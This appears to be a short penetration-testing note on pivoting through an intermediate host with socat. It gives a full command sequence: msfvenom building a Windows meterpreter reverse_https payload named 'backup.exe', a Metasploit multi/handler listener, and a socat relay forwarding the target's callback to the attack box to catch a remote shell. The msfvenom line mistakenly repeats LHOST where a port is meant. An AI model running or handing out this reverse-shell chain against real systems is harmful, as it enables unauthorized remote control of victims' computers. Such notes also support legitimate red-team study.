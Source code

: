 -- -
A bidirectional relay tool. Creates a pipe socket between 2 independent network channels w/o needing to use ssh tunneling. You need to run the relay from the pivot host, so you **might** need to download socat, [[Dark Arts/File Transfer/~Home|file transfer]] it to the pivot host and run it there. 
### Payload
Create a payload for the target box, in this example a windows box on the internal network.
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<pivot ip> LHOST=8080 -f exe -o backup.exe
```
[[Dark Arts/File Transfer/~Home|File transfer]] over the payload to the pivot box, then to the target box. 
### Start listeners
Start multi handler on attack box:
```bash
# may or may not need sudo
sudo msfconsole
use multi/handler
set lhost 0.0.0.0
set lport 80
set payload windows/x64/meterpreter/reverse_https
run
```
setup relay on pivot host:
```bash
socat TCP4-LISTEN:8080,fork TCP4:<attack ip>:80
```
Then run the payload on the target host and you should see your multi handler caught a meterpreter shell. 